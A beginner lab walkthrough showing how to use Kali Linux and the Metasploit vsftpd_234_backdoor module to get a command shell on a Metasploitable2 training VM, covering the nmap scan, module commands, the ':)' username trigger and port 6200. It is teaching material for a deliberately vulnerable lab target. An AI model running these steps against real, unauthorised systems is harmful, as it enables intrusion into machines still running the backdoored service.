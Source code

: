 # Beginner Walkthrough: Exploiting the vsftpd 2.3.4 FTP Backdoor on Metasploitable2

This guide will show you, step-by-step, how to exploit a real vulnerability in the Metasploitable2 virtual machine using Kali Linux. You’ll use the famous vsftpd 2.3.4 backdoor to gain a shell on the target.

---

## **What You Need**
- **Metasploitable2 VM** (target)
- **Kali Linux VM** (attacker)
- Both VMs must be on the same internal network (e.g., `homelab`)

---

## **Step 1: Find the Target’s IP Address**
1. Log in to Metasploitable2 (`msfadmin` / `msfadmin`).
2. Run:
   ```bash
   ifconfig
   ```
3. Note the IP address for `eth0` (e.g., `192.168.1.30`).

---

## **Step 2: Scan for Open FTP Port**
1. On Kali Linux, open a terminal.
2. Run:
   ```bash
   nmap -sV <TARGET_IP>
   ```
   Replace `<TARGET_IP>` with the IP from Step 1.
3. Look for this in the output:
   ```
   21/tcp open  ftp     vsftpd 2.3.4
   ```
   This means the vulnerable FTP service is running.

---

## **Step 3: Launch Metasploit Framework**
1. In Kali, start Metasploit:
   ```bash
   msfconsole
   ```
2. Wait for the prompt (`msf6 >`).

---

## **Step 4: Search for the Exploit**
1. In Metasploit, type:
   ```
   search vsftpd
   ```
2. You should see:
   ```
   exploit/unix/ftp/vsftpd_234_backdoor
   ```

---

## **Step 5: Use the Exploit Module**
1. Select the exploit:
   ```
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```
2. Set the target IP:
   ```
   set RHOSTS <TARGET_IP>
   ```
3. (Optional) Check the options:
   ```
   show options
   ```

---

## **Step 6: Run the Exploit**
1. Type:
   ```
   exploit
   ```
2. If successful, you’ll see:
   ```
   Command shell session 1 opened
   ```
3. You now have a shell on Metasploitable2! Try running:
   ```
   whoami
   uname -a
   ls
   ```

---

## **Step 7: Clean Up**
- Type `exit` to close the shell.
- Type `exit` again to leave Metasploit.

---

## **What Just Happened?**
- The vsftpd 2.3.4 service has a secret backdoor. When you connect with a username ending in ":)", it opens a shell on port 6200.
- Metasploit automates this attack and gives you a command shell on the target.

---

## **Why Is This Important?**
- This is a real-world example of how attackers exploit known vulnerabilities.
- Always keep software up to date and never use default or old versions in production!

---

## **References**
- [Metasploitable2 Guide](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [vsftpd 2.3.4 Backdoor Exploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

---

*For educational use only. Never attack systems you do not own or have permission to test.* 